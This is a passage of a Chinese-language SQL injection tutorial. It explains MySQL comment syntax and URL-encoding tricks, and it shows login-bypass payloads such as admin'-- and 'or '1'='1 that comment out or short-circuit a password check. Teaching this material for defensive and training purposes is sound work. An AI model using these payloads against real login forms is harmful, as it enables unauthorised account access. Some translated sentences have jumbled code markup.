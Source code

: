 tom'or '1' ='1

# 使用注释

## 注释

​	就像任何其他语言一样，SQL 也允许使用注释。注释用于记录查询或忽略查询的特定部分。除了内联注释外，我们还可以在 MySQL`-- `和中使用两种类型的行注释（尽管这通常不用于 SQL 注入）。可以按如下方式使用：`#``/**/``--`

```shell-session
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```

​	注意：在 SQL 中，仅使用两个破折号不足以开始注释。所以，它们后面必须有一个空格，所以注释以 (-- ) 开头，末尾有一个空格。有时 URL 编码为 (--+)，因为 URL 中的空格被编码为 (+)。为清楚起见，我们将在末尾 (-- -) 添加另一个 (-)，以显示空格字符的使用。

符号`#`也可以使用。

 

```shell-session
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'

+----+----------+----------+---------------------+
| id | username | password | date_of_joining     |
+----+----------+----------+---------------------+
|  1 | admin    | p@ssw0rd | 2020-07-02 00:00:00 |
+----+----------+----------+---------------------+
1 row in set (0.00 sec)
```

​	提示：如果您在浏览器的 URL 中输入有效负载，(#) 符号通常被视为标记，不会作为 URL 的一部分传递。为了在浏览器中使用 (#) 作为注释，我们可以使用 '%23'，这是一个 URL 编码 (#) 符号。

服务器将在评估期间忽略查询的部分`AND password = 'something'`。

## 带有注释的身份验证绕过

让我们回到我们之前的例子并注入`admin'-- `我们的用户名。最终查询将是：

代码：sql

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```
